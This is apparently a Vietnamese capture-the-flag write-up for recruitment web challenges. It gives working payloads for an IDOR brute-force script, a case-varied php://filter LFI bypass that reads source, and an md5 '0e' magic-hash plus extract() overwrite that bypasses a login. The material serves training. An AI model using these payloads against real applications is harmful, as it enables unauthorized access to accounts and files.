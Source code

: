 ## KCSC Recruit Members 

## Robot

Challenge lụm flag

**Part 1**: `KCSC{C0r0n4_` --> source-code

**Part 2**: `v1ru22_1s_` --> robots.txt 

**Part 3** : `g0n3_n0w!!}` --> disallowed: /vaccine.php --> /vaccine -> cookies:vaccine=0 --> vaccine=1 

**Flag**: `KCSC{C0r0n4_v1ru22_1s_g0n3_n0w!!}`

## 2. Warm Up

```javascript
    const checkPassword = () => {
      const v = document.getElementById("password").value;
      const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));
      if(p[0] === 52043 &&
         p[6] === 52063 &&
         p[5] === 52075 &&
         p[16] === 52076 &&
         p[9] === 52067 &&
         p[10] === 52063 &&
         p[4] === 52041 &&
         p[3] === 52067 &&
         p[8] === 52080 &&
         p[7] === 52037 &&
         p[2] === 52073 &&
         p[11] === 52082 &&
         p[12] === 52031&&
         p[13] === 52069 && 
         p[14] == 52063 && 
         p[15] == 52071 && 
         p[1] == 52063) {
        window.location.replace(v + ".html");
      } else {
        alert("Wrong password!");
      }
    }
```

`const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));` : Lấy từng số trong string ra dưới dạng ascii code rồi cộng cho `0xcafe`. 0xcafe `hex2decimal` được `51966`. Sắp xếp lại possition rồi lấy `51966` trừ cho vế so sánh --> charcode --> password: `MakeKmaGreatAgain`

**flag**: `KCSC{j4v-a-SRript-i555-FUn}`

## DIOR

Viết láy của `IDOR - Insecure direct object references`: arises when an application `uses user-supplied input` to access objects `directly`.

![any](idor.png)

`Brute-force` flag thôi:
```python
import requests

url = 'http://45.77.39.59/?number='

for i in range(2000):
  r = requests.get(url + f'{i}')
  if 'KCSC{' in r.text:
    print(r.text)
    break
```

**flag**: `KCSC{Gud_luckkkkk__brooo}`

## Magic PHP

Web app: 1 page login -> only admin see flag, another look like vulnerable to LFI.

http://45.77.39.59/?page=secret

Thử trigger LFI đọc `/etc/passwd` file:
```
Warning: include(/etc/passwd.php): Failed to open stream: No such file or directory in /var/www/html/index.php on line 14

Warning: include(): Failed opening '/etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 14
```
Add extension --> `null byte` --> *yes!!*

**payload read index.php file**: `pHp://filter/convert.base64-encode/resource=index`

*case-sensitive for bypass!!*
`index.php`
```php
<?php
    if (isset($_GET['page']) && !empty($_GET['page'])){
        $page = $_GET['page'];
        if(strpos($page, 'php') !== false){
          die("<center>Don' hack me ! Stop !!!</center>");
      }
      elseif (strpos(strtolower($page), 'flag')  ) {
        die("<center>Don' hack me ! Stop !!!</center>");
      }
    }
    else{
        $page = "login";
    }
    include ($page.".php");
?>
```

Đoạn này chẳng có gì nhiều, ngồi đục include to RCE thì là hỏng, chú ý khi không set `page` paramteter thì login sẽ redirect to `login.php`(đọc cho kĩ source-code jump!!).

`pHp://filter/convert.base64-encode/resource=login`

```php
<?php 
    
    include ("flag.php"); //real flag in $flag

  if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if(!empty($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
      $password = random_int(10000000, 99999999);
      extract($_POST);
      $user_hash ='0e902564435691274142490923013038' ;
  
      if (md5($user) == $user_hash && $password === $pass){
        echo $flag;
        die();
      }else{
        die("Only admin have flag !!");
      }
    }
  }
?>
```
Trông dễ ăn đó, với user_hash thì md5 hash interger to 0e(0 mũ = 0) là bypass được --> `0e1137126905:0e291659922323405260514745084877`

Hàm extract() extract any variable in POST array. Và nó được gọi sau `$password` variable tức mình có thể ghi đè!!

full payload(POST): `user=0e1137126905&password=123&pass=123`

**flag**: `KCSC{LFI_to_loose_comparison@@}`
